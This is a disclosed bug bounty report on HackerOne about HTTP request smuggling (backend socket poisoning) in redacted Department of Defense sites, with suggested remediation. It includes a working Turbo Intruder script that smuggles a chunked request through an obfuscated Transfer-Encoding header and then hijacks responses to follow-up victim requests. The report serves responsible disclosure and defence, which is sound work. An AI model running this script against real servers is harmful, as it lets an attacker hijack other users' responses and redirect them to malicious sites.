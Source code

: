 # Request smuggling on ████████

## Report Details
- **Report ID**: 526880
- **URL**: https://hackerone.com/reports/526880
- **State**: Closed
- **Severity**: high
- **Submitted**: 2019-04-04T14:55:55.466Z
- **Disclosed**: 2019-10-08T18:42:20.348Z

## Reporter
- **Username**: albinowax
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**


**Description:**
The sites at █████████ and ww.██████████ are vulnerable to backend socket poisoning which enables attackers to hijack responses to other users.

This vulnerability occurs because the backend server regards` \n` as a valid header ending, whereas the backend only thinks `\r\n` is valid. This means it's possible to send requests that are interpreted differently by the two servers, leading to backend socket poisoning.

## Impact
Unauthenticated, remote attackers can randomly redirect active users to malicious websites, with no user-interaction required.

## Step-by-step Reproduction Instructions
To replicate this with minimal risk of affecting legitimate users we'll target stage.████████ instead of ██████████, and use the following turbo intruder script:

I've hard-coded the endpoint to ██████████ because it appears that you've got multiple endpoints for stage.█████████ and some are not vulnerable.
```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint='https://██████████:443',
                           concurrentConnections=5,
                           requestsPerConnection=1,
                           pipeline=False,
                           maxRetriesPerRequest=0
                           )
    engine.start()    

    attack = '''POST /████ HTTP/1.1
Fooz: bar\nTransfer-Encoding: chunked
Host: stage.█████
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 77
Foo: bar

0

GET███████ HTTP/1.1
X: X'''

    engine.queue(attack)

    victim = '''GET /foo.jpg?x=%s HTTP/1.1
Host: stage.████████
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: keep-alive

'''
    for i in range(15):
        engine.queue(victim, i)
        time.sleep(0.2)


def handleResponse(req, interesting):
    table.add(req)

 ```
You should observe that one of the responses to a victim request is a 302 redirect to █████████

## Suggested Mitigation/Remediation Actions
When I resolve stage.███ I get a bunch of IP addresses, and only some of these appear to be vulnerable. As such, you should be able to resolve this issue by making these servers consistent:

```
stage.████████.		59	IN	A	██████████
stage.████.		59	IN	A	████████
stage.█████.		59	IN	A	██████
stage.███████.		59	IN	A	█████
stage.████.		59	IN	A	██████████
stage.██████████.		59	IN	A	█████
```

## Impact

Unauthenticated, remote attackers can randomly redirect active users to malicious websites, with no user-interaction required. Socket poisoning also enables a variety of other attacks which I haven't time to explore on your site.

## Attachments
No attachments
